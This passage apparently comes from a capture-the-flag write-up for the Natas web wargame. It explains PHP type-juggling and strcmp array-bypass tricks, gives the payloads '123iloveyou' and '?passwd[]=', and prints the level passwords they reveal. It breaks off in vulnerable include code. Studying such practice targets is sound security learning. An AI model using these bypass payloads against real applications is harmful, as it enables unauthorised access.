In PHP, we can compare between string and int, string will be convert to int, such as: `"abc"->0`, `"123abc->123` or `"10e1xyz"->100`. So the passwd payload `123iloveyou` is should be ok.

```
The credentials for the next level are:

Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
```

### natas24

```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?> 
```

In PHP, `strcmp` is used to compare two string. If two string equal, the `strcmp` return to 0.

We want `strcmp` return to 0. It will happen if passwd will be a string equals to which is unknown. The other case is that passwd won't be a string, the function will return `NULL` (equal 0) and raise Warning, such as below:

```
strcmp("foo", array()) => NULL + PHP Warning
strcmp("foo", new stdClass) => NULL + PHP Warning
strcmp(function(){}, "") => NULL + PHP Warning
```

Let's pass `passwd` as array with the payload `?passwd[]=`:

```
Warning: strcmp() expects parameter 1 to be string, array given in /var/www/natas/natas24/index.php on line 23

The credentials for the next level are:

Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
```